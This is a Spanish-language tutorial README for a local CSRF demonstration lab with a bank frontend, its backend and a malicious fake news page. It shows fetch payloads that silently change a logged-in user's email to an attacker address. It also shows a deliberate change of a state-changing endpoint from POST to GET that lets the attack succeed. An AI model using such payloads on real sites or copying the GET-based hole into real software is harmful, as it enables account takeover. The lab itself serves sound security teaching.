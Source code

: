 
CSRF(Cross-Site Request Forgery) es un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

# Manos a la obra

>## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

Abrimos el navegador y accedemos a la app de frontend en la ruta http://localhost:1234

<img src="./assets/01.png" style="zoom:67%;" />

>## Pasos 

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```
email: user@email.com
password: test
```

Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

<img src="./assets/02.png" style="zoom:67%;" />

Arrancamos a _frontend-chupichuli_ desde otra terminal.

_.03-CSRF/frontend-chupichuli_

```bash
npm start
```

Abrimos nuestro navegador en la ruta http://localhost:1235, aquí vamos a simular que nos han enviado un correo con un enlace malicioso.
Hemos creado un enlace que nos redirige a una fake web de noticias que nos simula el ataque CSRF.

Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se relaizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF con post
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitio y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

<img src="./assets/03.png" style="zoom:67%;" />

Ahora vamos a hacer la simulación de utilizar el método GET, en vez del método POST para realizar peticiones que modifican datos en el servidor, ya que mucha gente en el día de hoy siguen utilizándolo para esto.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupilchuli/src/index.html_

```diff
<script>
-       Esto es CSRF con post
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+       Esto es CSRF con get
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+                    email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.text())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
    </script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```
Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.

<img src="./assets/04.png" style="zoom:67%;" />

Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.
